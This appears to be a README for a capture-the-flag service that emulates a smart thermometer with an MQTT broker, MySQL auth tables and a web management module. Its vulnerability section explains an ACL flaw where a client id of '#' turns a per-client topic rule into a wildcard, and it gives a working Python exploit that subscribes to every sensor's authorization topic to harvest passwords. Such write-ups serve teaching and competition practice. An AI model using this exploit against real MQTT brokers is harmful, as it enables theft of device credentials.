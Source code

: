 # Thermometer service

## About

Thermometer service emulates smart temperature module. It consists of four elements: MQTT-broker, MySQL database, themperature sensor and web interface for management.

### MQTT broker

Docker image `thermometer/mqtt-broker` contains [Mosquitto](https://mosquitto.org/) MQTT broker.
As written on the [mosquitto.org](https://mosquitto.org/):
>Eclipse Mosquitto™ is an open source (EPL/EDL licensed) message broker that implements the MQTT protocol versions 3.1 and 3.1.1. MQTT provides a lightweight method of carrying out messaging using a publish/subscribe model. This makes it suitable for "Internet of Things" messaging such as with low power sensors or mobile devices such as phones, embedded computers or microcontrollers like the Arduino.

It supports client authentication (users + passwords) and authorization (acls). To store authentication and authorization information in MySQL Mosquitto uses [mosquitto-auth-plug](https://github.com/jpmens/mosquitto-auth-plug) authentication plugin. This information is stored in the `mqtt.users` and `mqtt.acls` tables.

`thermometer/mqtt-broker` docker image exposes 1883 tcp port outside. Sensor uses broker to send temperature data, client - to read data from sensors.

### MySQL

Docker image `thermometer/mqtt-db` wraps MySQL server. It contains single db (`mqtt`), two tables (`users` and `acls`) and two users (`mqtt_broker` and `thermometer_module`).
MQTT broker uses `mqtt_broker` user to read auth info from `mqtt-db` database.
Thermometer module uses `thermometer_module` user to add new MQTT users and acls for them.

### Termometer Sensor

Docker image `thermometer/sensor` contains an emulator of temperature sensor. It sends current (random) temperature to MQTT topic `house/temperature`.
To allow sensor to send temperature data, `admin` user should add MQTT authentication info for the sensor. He can do it via Termometer Module web interface.

After that sensor can publish temperature to `house/temperature` topic.

### Temperature Module

Docker image `thermometer/module` contains service to manage MQTT authentication and authorization.
It allows admin user (`admin:webrelay`) to:
* create MQTT user (`<sensor mqtt client id>:<auth token>`) and acl (permission to write to `house/temperature` topic) for sensor.
* create MQTT user (`<user name>:<password>`) and acl (permission to read from `house/temperature` topic) for temperature data consumer.

Module exposes HTTP port 8888 outside. 

## Vulnerabilities

### Read sensor authentication info

Thermometer module authorises sensor via MQTT: it sends MQTT password to topic `house/authorization/<sensor_mqtt_client_id>`.
To disallow to read other sensor password (flag) there is an acl rule in `mqtt.acls` table:

```
+----+--------------------+------------------------+----+
| id | username           | topic                  | rw |
+----+--------------------+------------------------+----+
| .. | ..                 | ..                     | .. |
|  2 | anonymous          | house/authorization/%c |  1 |
| .. | ..                 | ..                     | .. |
+----+--------------------+------------------------+----+
```

This rule expands `house/authorization/%c` to `house/authorization/<mqtt_client_id>`.

But if you pass `#` as `mqtt_client_id` you will get new MQTT passwords (flags) after subscribing to topic `house/authorization/#`.

Exploit:

```python
#!/usr/bin/env python3

import paho.mqtt.client as mqtt
import sys

def on_connect(client, userdata, flags, rc):
    print("Connected to MQTT broker.")
    client.subscribe("house/authorization/#")
    print("Subscribed to topic 'house/authorization/#'.")
    print("Waiting for flags...")

def on_message(client, userdata, msg):
    print(msg.payload)

def exploit(host):
    client = mqtt.Client(client_id="#", clean_session=True)
    client.on_connect = on_connect
    client.on_message = on_message

    print("Connecting to MQTT broker on %s" % host)
    client.connect(host, 1883, 60)
    client.loop_forever()


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print('USAGE: %s <host>' % sys.argv[0])
        exit(-1)

    sys.exit(exploit(sys.argv[1]))
```
